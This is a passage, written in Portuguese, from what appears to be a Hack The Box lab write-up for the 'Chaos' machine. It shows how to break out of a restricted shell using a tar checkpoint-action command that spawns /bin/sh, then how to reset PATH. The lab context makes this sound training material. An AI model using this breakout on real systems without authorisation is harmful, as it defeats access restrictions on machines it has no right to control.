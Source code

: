 
Conseguimos o acesso, porém, com uma shell restrita.
Podemos visualizar os binários quais podemos executar, exibindo o PATH e utilizando da tecla **tab**.


![15](/assets/images/htb/chaos/15.png)


* tar
* ping
* dir


---


Utilizando do Tar para o retorno da shell com:


```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
e concertando o PATH com:


`export PATH=/bin`


ou


```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
![16](/assets/images/htb/chaos/16.png)
